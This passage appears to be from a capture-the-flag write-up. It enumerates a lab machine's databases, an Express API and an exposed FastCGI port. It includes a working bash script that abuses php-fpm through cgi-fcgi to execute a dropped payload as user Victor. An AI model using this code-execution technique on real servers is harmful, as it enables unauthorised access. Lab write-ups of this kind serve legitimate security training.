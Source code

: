 MariaDB seems to house many databases. Many of which seem to belong to the various domains on the machine. Developers contains an admin user whos password hash remained uncrackable. Forum contains password hashes and salts for Victor, the user of interest, among many others yet none were crackable either. Webapp was the main site. pollution_api seems pretty empty with empty users and empty messages. Though considering the box name, we may be revisiting this later.

### ExpressJS API (3000/tcp)

This port happened to just be a API handler. I looked back into the source code of some of the pages we used earlier like `bootstrap.php` and it mentioned curling requests to port 3000. I guess this is where that comes into play. As of right now we can’t really do much. It requires authentication to play with its functionality and there’s no leads there.

### FastCGI (9000/tcp)

First time seeing this port open. Hacktricks seems to have an article on this port so I will be testing that out shortly. I also found that by running linpeas under the cleaned processes tab, I saw this:

```php
victor      1113  0.0  0.3 265840 15836 ?        S    Mar10   0:00  _ php-fpm: pool victor                                                                      
victor      1114  0.0  0.3 265840 15836 ?        S    Mar10   0:00  _ php-fpm: pool victor
```

php-fpm is FastCGI Process Manager so this should confirm what the port 9000 is. That being said, time to test the Hacktricks payloads.

[9000 - Pentesting FastCGI](https://book.hacktricks.xyz/network-services-pentesting/9000-pentesting-fastcgi)

This was the payload I ended up using. No need to create a long reverse shell payload if I know this is run as Victor. I can just reuse the payload I dropped earlier.

```bash
#!/bin/bash

PAYLOAD="<?php echo '<!--'; system('/tmp/a'); echo '-->';"
FILENAMES="/var/www/developers/index.php" # Exisiting file path

HOST=$1
B64=$(echo "$PAYLOAD"|base64)

for FN in $FILENAMES; do
    OUTPUT=$(mktemp)
    env -i \
      PHP_VALUE="allow_url_include=1"$'\n'"allow_url_fopen=1"$'\n'"auto_prepend_file='data://text/plain\;base64,$B64'" \
      SCRIPT_FILENAME=$FN SCRIPT_NAME=$FN REQUEST_METHOD=POST \
      cgi-fcgi -bind -connect $HOST:9000 &> $OUTPUT

    cat $OUTPUT
done
```

